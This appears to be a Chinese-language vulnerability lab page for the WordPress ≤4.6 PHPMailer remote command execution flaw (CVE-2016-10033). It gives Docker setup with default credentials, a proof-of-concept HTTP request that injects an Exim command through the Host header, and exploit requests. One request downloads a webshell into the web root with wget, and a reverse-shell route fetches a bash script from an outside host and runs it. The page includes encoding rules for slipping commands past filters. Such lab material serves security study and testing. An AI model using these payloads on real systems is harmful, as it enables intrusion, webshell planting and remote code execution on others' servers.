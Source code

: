 ## WordPress <= 4.6 命令执行漏洞(PHPMailer)(CVE-2016-10033)

### 漏洞信息

 WordPress 是一种使用 PHP 语言开发的博客平台，用户可以在支持 PHP 和 MySQL 数据库的服务器上架设属于自己的网站。也可以把 WordPress 当作一个内容管理系统（CMS）来使用。WordPress 使用 PHPMailer 组件向用户发送邮件。PHPMailer(版本 < 5.2.18)存在远程命令执行漏洞，攻击者只需巧妙地构造出一个恶意邮箱地址，即可写入任意文件，造成远程命令执行的危害。

### 影响版本

WordPress <= 4.6

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
Mysql | root | root
/wp-admin/ | admin | admin123

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:w_wordpress_6
 ```

2. 启动环境

 ```
$ docker run -d -p 8000:80 medicean/vulapps:w_wordpress_6
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 

 访问 http://127.0.0.1:8000 看到 WordPress 主界面代表启动成功


### POC

> 假如目标地址为： http://127.0.0.1:8000/

1. 把下面的HTTP报文复制到 BurpSuite Repeater 中，点击 Go 按钮，填写目标 IP 和 端口（例如, IP填 127.0.0.1 端口填 80）

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}var${substr{0}{1}{$spool_directory}}www${substr{0}{1}{$spool_directory}}html${substr{0}{1}{$spool_directory}}vuln}} null)
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

2. 访问：http://127.0.0.1:8000/vuln

看到返回状态码为 200 代表已经成功创建了 `/var/www/html/vuln` 文件

> 可在发包之前访问该地址，会出现 404

### Exp

思路： 在远程 HTTP 服务器上创建一个文本文件，通过 `wget` 下载到目标机器上

#### 向目标写 WebShell（强烈不推荐）

> 都能命令执行了，还传什么 WebShell

1. 执行命令如下：

```
/usr/bin/wget --output-document /var/www/html/webshell.php raw.githubusercontent.com/medicean/vulapps/master/w/wordpress/6/webshell.php
```

> 注意： 
> 1. 远程 URL 中不要有 `http://`
> 2. 所有字母必须小写
> 3. 所有 / 用 `${substr{0}{1}{$spool_directory}}` 代替
> 4. 所有 空格 用 `${substr{10}{1}{$tod_log}}` 代替

报文如下(根据实际情况替换 user_login, 默认是 admin)：

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}wget${substr{10}{1}{$tod_log}}--output-document${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}var${substr{0}{1}{$spool_directory}}www${substr{0}{1}{$spool_directory}}html${substr{0}{1}{$spool_directory}}webshell.php${substr{10}{1}{$tod_log}}raw.githubusercontent.com${substr{0}{1}{$spool_directory}}medicean${substr{0}{1}{$spool_directory}}vulapps${substr{0}{1}{$spool_directory}}master${substr{0}{1}{$spool_directory}}w${substr{0}{1}{$spool_directory}}wordpress${substr{0}{1}{$spool_directory}}6${substr{0}{1}{$spool_directory}}webshell.php}} null)
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

2. 访问 http://127.0.0.1:8000/webshell.php

#### 反弹 Shell（推荐）

远程文本文件内容如果是 bash 脚本，可在下载到目标后，直接用 `/bin/bash` 来执行该文件

1. 下载bash脚本到目标

```
/usr/bin/wget --output-document /tmp/rce example.com/1.txt
```

2. 执行

```
/bin/bash /tmp/rce
```

### 相关链接

* [WordPress Core 4.6 - Unauthenticated Remote Code Execution (RCE) PoC Exploit](https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html)

###Berrenc笔记
这个漏洞的利用比较苛刻，经测试，远程新建文件，远程下载文件至本地没有问题，但是不能通过echo远程写文件，或者直接进行反弹shell

